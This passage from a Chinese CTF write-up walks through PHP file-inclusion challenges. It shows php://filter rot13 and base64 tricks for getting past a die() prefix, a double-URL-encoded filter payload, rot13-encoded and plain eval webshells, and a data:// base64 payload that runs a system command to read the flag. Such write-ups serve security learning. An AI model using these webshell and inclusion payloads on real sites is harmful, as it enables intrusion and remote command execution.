

然后调用shell.php，传入cmd



最后拿flag就行了

### 通过 rot13 编码实现绕过

\<?php die('大佬别秀了');?> 经过 rot13 编码会变成 \<?cuc qrv(); ?>，如果 php 未开启短标签，则不会认识这段代码，也就不会执行。

file 传入 php://filter/write=string.rot13/resource=sh.php

file 传入 php://filter/write=string.rot13/resource=sh.php

两次 url 编码：

```python
?file=%25%37%30%25%36%38%25%37%30%25%33%61%25%32%66%25%32%66%25%36%36%25%36%39%25%36%63%25%37%34%25%36%35%25%37%32%25%32%66%25%37%37%25%37%32%25%36%39%25%37%34%25%36%35%25%33%64%25%37%33%25%37%34%25%37%32%25%36%39%25%36%65%25%36%37%25%32%65%25%37%32%25%36%66%25%37%34%25%33%31%25%33%33%25%32%66%25%37%32%25%36%35%25%37%33%25%36%66%25%37%35%25%37%32%25%36%33%25%36%35%25%33%64%25%37%33%25%36%38%25%32%65%25%37%30%25%36%38%25%37%30
```

将一句话木马进行 rot13 解码后传入 

content=\<?cuc @riny($_TRG['pzq']);?>

方法是一样的，主要是编码方式不一样，最终还是依靠编码去使die()函数exit掉

**但这道题主要是前面短标签的 php 代码 \<?cuc qvr('大佬别秀了');?> 无法被识别，但是后面的 `<?php @eval($_GET['cmd']);?> `可以正常执行，总的来说这种方法适用于未开启短标签的情况。**

### 通过 strip_tags 函数去除 [XML](https://so.csdn.net/so/search?q=XML&spm=1001.2101.3001.7020) 标签

\<?php die(); ?> 实际上就是一个 XML 标签，我们可以通过 strip_tags 函数去除它。

#### strip_tags函数

是一个在PHP中非常有用的内置函数，其主要功能是去除字符串中的HTML和PHP标签，确保输出到浏览器的内容是安全的

strip_tags()函数用于剥去字符串中的HTML、XML以及PHP的标签。它接受一个字符串作为输入，并返回该字符串的一个版本，其中所有的HTML和PHP标签（除非在可选参数中指定了允许保留的标签）都被移除。

具体用法:

strip_tags(string $str [, string $allowable_tags = null ]): string

但是我们传入的一句话木马也是 XML 标签，如何让它只去除 \<?php die(); ?> 而不破坏我们传入的木马呢？我们可以先对一句话木马进行 base64 编码后传入，这样就不会受到 strip_tags 函数的影响，当去除掉 \<?php die(); ?> 后，由于 php://filter 允许使用多个过滤器，我们再调用 base64-decode 将一句话木马进行 base64 解码，实现还原。

这个做法没试过，你们可以试一下

## web88

很经典的一道文件包含题哈



这里过滤了php,~,!,@,#,$,%,^,&,*,(,),-,+,=,.键盘顶上的符号全部被过滤了

然后我用了日志注入，php://filter伪协议和php://input伪协议发现都不能很好的绕过这些验证，这时候我们先找找哪些字符是可用的，从这些字符里面寻找做题思路



利用data伪协议，同时进行base64加密，由于过滤了=，所以可以在构造的 命令中添加上空格

```plain
?file=data://text/plain;base64,PD9waHAgICAgIHN5c3RlbSgndGFjIGZsMGcucGhwJyk7
```

主要是data协议构造base64的时候必须要求不含=和+号，多试几次构造一下，在结尾?>后添加字符消除=
